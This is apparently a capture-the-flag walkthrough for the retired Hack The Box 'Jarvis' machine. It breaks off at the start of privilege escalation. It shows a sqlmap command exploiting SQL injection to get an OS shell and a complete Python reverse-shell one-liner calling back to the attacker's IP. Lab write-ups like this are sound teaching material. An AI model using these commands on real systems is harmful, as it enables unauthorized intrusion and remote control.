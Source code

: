 # Hack The Box - Jarvis walkthrough
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/jarvis.png?raw=true)

This walkthrough is about the retired Jarvis machine of Hack The box. </br>
It is a Linux based machine. </br>
This machine has a static IP address <10.10.10.143> </br>
It was a nice bit easy machine. </br>
</br>
You have to found **user.txt** and **root.txt** flag. </br> 

## Penetration Methodology

* **Scanning**
  * open ports and services
* **Enumeration**
  * Enumerating the website about vulnerablities
* **Exploitation**
  * SQLI
  * exploitation using sqlmap
  * os-shell with sqlmap
  * machine access with Reverse-shell
* **Post Exploitation**
  * getting user access
  * privelage escalation from user to root
  
Now start pentesting the **Jarvis** machine. </br>

## Checking for open ports and services

We used **nmap** for checing the open ports and what services are running.
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/nmap.png)

As we can see that port **22** and **80** are open.

**Now start enumerating the website**

When we reach the website we got a page like this </br>
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/page.png)

## Enumerating the Website

**While enumerating the website after some time we found a page room.php** </br>

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_vul_room.png)

**This seems to be sql vulnerable** --> `<10.10.10.143/room.php?cod=1>` 

## Exploitation using sqlmap

Then we tried **sqlmap** with **--os-shell**
**using this** 
* `<sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell>`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sqlmap_1.png)

And we got the shell

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_1.png)

Now we can use any reverse shell to get access of the machine

**I have used the python reverse shell**

Simply execute the reverse shell and also start the listener </br>

* `<python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'>`

**We got the shell but it is not the proper user**

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/conn.png)

Now we are www-data user so we enumerate for **user.txt** flag

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/enu_ww.png)

As we can see that only root and pepper user has privelages to read **user.txt** </br>
So we have to escalate our privelage to **pepper** user.

## Post Exploitation

So after some enumearating I look into **sudoers file**

![]()

